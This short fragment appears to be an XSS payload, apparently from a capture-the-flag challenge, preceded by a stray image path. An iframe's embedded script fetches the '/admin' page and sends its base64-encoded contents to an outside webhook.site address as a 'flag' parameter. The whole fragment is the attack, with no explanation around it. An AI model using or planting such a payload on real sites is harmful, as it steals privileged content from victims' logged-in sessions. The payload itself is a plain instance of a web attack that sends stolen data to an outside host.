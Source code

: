 <iframe srcdoc="
<script>
fetch('/admin')
  .then(r => r.text())
  .then(f => location='https://webhook.site/a2f145b5-2e6c-4189-8f48-6d1e29488c62?flag='+btoa(f))
</script>
"></iframe>
